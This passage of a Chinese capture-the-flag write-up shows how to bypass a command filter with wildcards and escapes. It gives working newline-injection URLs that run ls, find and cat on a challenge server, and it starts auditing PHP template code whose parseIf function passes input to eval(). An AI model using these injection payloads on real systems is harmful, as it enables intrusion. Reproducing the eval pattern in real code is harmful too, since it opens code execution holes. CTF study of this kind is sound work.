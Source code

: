 对于命令的过滤有两种绕过方法，一个是linux下，用通配符?绕过，比如var写成v?r

解题：
1. http://101.71.29.5:10054/?a=\&amp;b=%0al\s%20/%0a1. flag不在根目录下，那就找找，- http://101.71.29.5:10054/?a=\&amp;b=%0afin\d%20/va?/???/htm?/%0a1. 找到了- http://101.71.29.5:10054/?a=\&amp;b=%0aca\t%20/va?/???/htm?/.F1jh_/h3R3_1S_your_F1A9.txt%0a
[![](https://p4.ssl.qhimg.com/t011ea19b8dc163f851.png)](https://p4.ssl.qhimg.com/t011ea19b8dc163f851.png)

flag：unctf`{`86dfe85d7c5842c5c04adae104193ee1`}`

### <a name="header-n97"></a>审计一下世界上最好的语言吧

先丢进Seay

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01750cb1862de2f113.png)

parse_template.php中有一个eval

查一下调用关系：

```
index.php：parse_again($searchword);

parse_template.php:

function parse_again()`{`
    global $template_html,$searchword;
    $searchnum    = isset($GLOBALS['searchnum'])?$GLOBALS['searchnum']:"";
    $type      = isset($GLOBALS['type'])?$GLOBALS['type']:"";
    $typename = isset($GLOBALS['typename'])?$GLOBALS['typename']:"";


    $searchword = substr(RemoveXSS($searchword),0,20);
    $searchnum = substr(RemoveXSS($searchnum),0,20);
    $type = substr(RemoveXSS($type),0,20);
    $typename = substr(RemoveXSS($typename),0,20);
    $template_html = str_replace("`{`haha:searchword`}`",$searchword,$template_html);
    $template_html = str_replace("`{`haha:searchnum`}`",$searchnum,$template_html);
    $template_html = str_replace("`{`haha:type`}`",$type,$template_html);
    $template_html = str_replace("`{`haha:typename`}`",$typename,$template_html);
    $template_html = parseIf($template_html);
    return $template_html;
`}`

function parseIf($content)`{`
    if (strpos($content,'`{`if:')=== false)`{`
            return $content;
    `}`else`{`
        $Rule = "/`{`if:(.*?)`}`(.*?)`{`end if`}`/is";
        preg_match_all($Rule,$content,$iar);
        $arlen=count($iar[0]);
        $elseIfFlag=false;
        for($m=0;$m&lt;$arlen;$m++)`{`
            $strIf=$iar[1][$m];
            $strIf=parseStrIf($strIf);
            @eval("if(".$strIf.") `{` \$ifFlag=true;`}` else`{` \$ifFlag=false;`}`");
        `}`
    `}`
    return $content;
```

